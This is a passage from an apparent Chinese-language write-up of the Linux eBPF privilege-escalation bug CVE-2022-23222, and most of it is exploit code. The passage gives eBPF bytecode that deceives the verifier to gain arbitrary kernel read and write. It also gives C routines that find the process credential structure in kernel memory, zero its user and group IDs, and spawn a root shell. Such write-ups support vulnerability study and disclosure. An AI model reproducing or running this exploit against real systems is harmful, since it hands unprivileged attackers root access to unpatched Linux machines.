    BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
	
    // 必需的判断，令false分支的r0变成PTR_TO_MAP_VALUE类型。
    // if (r0 == NULL) exit(1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 1),
    BPF_EXIT_INSN(),
	
    // 将array指针保存进r8。
    // r8 = r0
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),
	
    // 获取PTR_TO_MEM_OR_NULL类型指针，保存在r0。
    // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
    BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
    BPF_MOV64_IMM(BPF_REG_3, 0x00),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),

	// 复制PTR_TO_MEM_OR_NULL类型指针，副本保存在r1。
    // r1 = r0
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    // r1 = r1 + 1
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // 不可能发生。ringbuf的大小虽然为PAGE_SIZE，但其中一部分用于存储关于ringbuf的结构体，剩下的才用于存储数据。
    // 因此，请求保留PAGE_SIZE的内存不可能实现。
    // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
    BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    BPF_MOV64_IMM(BPF_REG_2, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 2),
    BPF_EXIT_INSN(),
	
    // 经过上面的NULL检查后，verifier认为r0=0。
    // 由于r1是由r0派生出来的，因此verifier也会认为r1=0。但实际上，r1=1。

    // r7 = (r1 + 1) * 8
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

    // verifier认为r7=8，但实际上r7=16。

    // 调试发现array指针都是0xFFFF..........10
    // 将该指针保存到r10-8处
    // *(u64 *)(r10 - 8) = r8
    BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

    // 向r10-16写入r7=16个字节，覆盖r10-8处的array指针。
    // 写入字节为可控，可将array指针改成任意地址。
    // r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
    BPF_MOV64_IMM(BPF_REG_2, 0),
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
    BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
    BPF_MOV64_IMM(BPF_REG_5, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

    // 获取修改后的指针。
    // r6 = *(u64 *)(r10 - 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
  	
    // 从array map中获取从用户态传入的数据。
    // r0决定写入8字节还是4字节，r1则为写入的值。
    // r0 = *(u64 *)(r8 + 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8, 0),
    // r1 = *(u64 *)(r8 + 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_8, 8),
	
    // 实现任意写。
    // 之所以可以写入成功，是因为verifier以为r6仍为array指针。
    // if (r0 == 0) { *(u64*)r6 = r1 }
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
    BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_1, 0),
    BPF_JMP_IMM(BPF_JA, 0, 0, 1),
    // else { *(u32*)r6 = r1 }
    BPF_STX_MEM(BPF_W, BPF_REG_6, BPF_REG_1, 0),

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
};
```

### 4.4 定位进程cred

调试发现，进程的 cred 有一定概率在泄露的 array 指针之后。因此需要多创建几个进程，避免利用失败。

所有进程通过 prctl(PR_SET_NAME, \_\_ID\_\_, 0, 0, 0) 将进程名称设置为固定字符串，在此使用 SCSLSCSL 。

```C
int spawn_processes(context_t *ctx)
{
    for (int i = 0; i < PROC_NUM; i++)
    {
        pid_t child = fork();
        if (child == 0) {
            if (prctl(PR_SET_NAME, __ID__, 0, 0, 0) != 0) {
                WARNF("Could not set name");
            }
            uid_t old = getuid();
            kill(getpid(), SIGSTOP);
            uid_t uid = getuid();
            if (uid == 0 && old != uid) {
                OKF("Enjoy root!");
                system("/bin/sh");
            }
            exit(uid);
        }
        if (child < 0) {
            return child;
        }
        ctx->processes[i] = child;
    }

    return 0;
}
```

之后，各进程依次尝试通过任意读原语，在 array 指针之后 PAGE_SIZE * PAGE_SIZE 大小的内核空间搜索 SCSLSCSL 字符串，来定位进程的 cred 。

```C
int find_cred(context_t *ctx)
{
    for (int i = 0; i < PAGE_SIZE*PAGE_SIZE ; i++)
    {
        u64 val = 0;
        kaddr_t addr = ctx->array_map + PAGE_SIZE + i*0x8;
        if (arbitrary_read(ctx, addr, &val, BPF_DW) != 0) {
            WARNF("Could not read kernel address %p", addr);
            return -1;
        }

        // DEBUGF("addr %p = 0x%016x", addr, val);

        if (memcmp(&val, __ID__, sizeof(val)) == 0) {
            kaddr_t cred_from_task = addr - 0x10;
            
            if (arbitrary_read(ctx, cred_from_task + 8, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 8", cred_from_task);
                return -1;
            }

            if (val == 0 && arbitrary_read(ctx, cred_from_task, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 0", cred_from_task);
                return -1;
            }

            if (val != 0) {
                ctx->cred = (kaddr_t)val;
                DEBUGF("task struct ~ %p", cred_from_task);
                DEBUGF("cred @ %p", ctx->cred);
                return 0;
            }
            

        }
    }
    
    return -1;
}
```

### 4.5 实现提权

定位到进程 cred 后，即可通过任意写原语修改 cred ，实现提权。

```C
int overwrite_cred(context_t *ctx)
{
    if (arbitrary_write(ctx, ctx->cred + OFFSET_uid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_gid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_euid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_egid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }

    return 0;
}
```


## 参考

[cve-2022-23222-linux-kernel-ebpf-lpe.txt](https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt)

[The Good, Bad and Compromisable Aspects of Linux eBPF - Pentera](https://www.pentera.io/blog/the-good-bad-and-compromisable-aspects-of-linux-ebpf/)

[eBPF - Introduction, Tutorials & Community Resources](https://ebpf.io/)

[eBPF Instruction Set — The Linux Kernel documentation](https://www.kernel.org/doc/html/latest/bpf/instruction-set.html)

[BPF 进阶笔记（一）：BPF 程序（BPF Prog）类型详解：使用场景、函数签名、执行位置及程序示例](https://arthurchiao.art/blog/bpf-advanced-notes-1-zh/)

[bpf-helpers(7) - Linux manual page](https://man7.org/linux/man-pages/man7/bpf-helpers.7.html)

[Libbpf: A Beginners Guide](https://www.containiq.com/post/libbpf)

[Building BPF applications with libbpf-bootstrap](https://nakryiko.com/posts/libbpf-bootstrap/)

[BPF ring buffer](https://nakryiko.com/posts/bpf-ringbuf/)

[bcc/reference_guide.md at master · iovisor/bcc](https://github.com/iovisor/bcc/blob/master/docs/reference_guide.md)

